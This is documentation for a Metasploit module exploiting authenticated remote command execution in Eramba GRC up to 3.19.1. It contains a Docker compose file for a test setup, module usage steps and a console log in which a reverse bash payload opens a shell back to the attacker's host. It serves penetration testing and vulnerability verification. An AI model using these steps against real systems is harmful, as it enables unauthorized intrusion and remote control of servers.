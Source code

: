 ## Vulnerable Application

Eramba is open and free GRC software, used by many companies. It offer mainly risk management solution. Version up to 3.19.1 is vulnerable to authenticated remote command execution. It is neccessary to provide valid credentials. The application allows to execute arbitrary OS commands, which can lead to remote access. Application is available in [Docker format](https://www.eramba.org/learning/courses/12/episodes/274). However, after installation, debug mode needs to be enabled. Here's modified Docker compose file for simpler testing (`docker-compose.simple-install.yml`):

```
version: '3.19'
services:
  mysql:
    container_name: mysql
    image: mysql:8.0.28-oracle
    command: ["mysqld", "--disable-log-bin"]
    restart: always
    volumes:
      - db-data:/var/lib/mysql
      - ./mysql/conf.d:/etc/mysql/conf.d
      - ./mysql/entrypoint:/docker-entrypoint-initdb.d
    environment:
      MYSQL_DATABASE: ${DB_DATABASE}
      MYSQL_USER: ${DB_USERNAME}
      MYSQL_PASSWORD: ${DB_PASSWORD}
      MYSQL_ROOT_PASSWORD: ${MYSQL_ROOT_PASSWORD}
  redis:
    container_name: redis
    image: redis:6.0.16-alpine
    restart: always
  eramba:
    container_name: eramba
    image: ghcr.io/eramba/eramba:3.19.1
    restart: always
    ports:
      - 8443:443
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./apache/ssl/mycert.crt:/etc/ssl/certs/mycert.crt
      - ./apache/ssl/mycert.key:/etc/ssl/private/mycert.key
      - ./apache/security.conf:/etc/apache2/conf-available/security.conf
      - ./apache/ports.conf:/etc/apache2/ports.conf
      - ./apache/vhost-ssl.conf:/etc/apache2/sites-available/000-default.conf
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
    depends_on:
      - mysql
  cron:
    container_name: cron
    image: ghcr.io/eramba/eramba:3.19.1
    command: ["cron", "-f"]
    entrypoint: ["/docker-cron-entrypoint.sh"]
    restart: always
    volumes:
      - data:/var/www/eramba/app/upgrade/data
      - app:/var/www/eramba
      - logs:/var/www/eramba/app/upgrade/logs
      - ./docker-cron-entrypoint.sh:/docker-cron-entrypoint.sh
      - ./crontab/crontab:/etc/cron.d/eramba-crontab
      - .env:/var/www/docker.env
    environment:
      DB_HOST: ${DB_HOST}
      DB_DATABASE: ${DB_DATABASE}
      DB_USERNAME: ${DB_USERNAME}
      DB_PASSWORD: ${DB_PASSWORD}
      CACHE_URL: ${CACHE_URL}
      USE_PROXY: ${USE_PROXY}
      PROXY_HOST: ${PROXY_HOST}
      PROXY_PORT: ${PROXY_PORT}
      USE_PROXY_AUTH: ${USE_PROXY_AUTH}
      PROXY_AUTH_USER: ${PROXY_AUTH_USER}
      PROXY_AUTH_PASS: ${PROXY_AUTH_PASS}
      PUBLIC_ADDRESS: ${PUBLIC_ADDRESS}
      DOCKER_DEPLOYMENT: ${DOCKER_DEPLOYMENT}
      LDAPTLS_REQCERT: ${LDAPTLS_REQCERT}
    links:
      - mysql
      - redis
      - eramba
    depends_on:
      - eramba
volumes:
  app:
  data:
  logs:
  db-data:
```

## Verification Steps

1. use exploit/linux/http/eramba_rce
2. set RHOSTS [target IP]
3. set LHOST [attacker's IP]
4. set USERNAME [username]
5. set PASSWORD [password]
6. exploit

## Options

- **USERNAME**: valid username for Eramba application (default: admin)
- **PASSWORD**: valid password for Eramba application (default: admin)

## Scenarios

```
msf6 > use exploit/linux/http/eramba_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/eramba_rce)> set RHOSTS 192.168.95.145
RHOSTS => 192.168.95.145
msf6 exploit(linux/http/eramba_rce)> set LHOST 192.168.95.142
LHOST => 192.168.95.142
msf6 exploit(linux/http/eramba_rce)> set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/eramba_rce)> set PASSWORD P4ssw0rd!
PASSWORD => P4ssw0rd!
msf6 exploit(linux/http/eramba_rce) > exploit
[*] Started reverse TCP handler on 192.168.95.142:4444 
[*] Command shell session 1 opened (192.168.95.142:4444 -> 192.168.95.145:38460) at 2025-03-13 12:31:26 +0100
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)


```

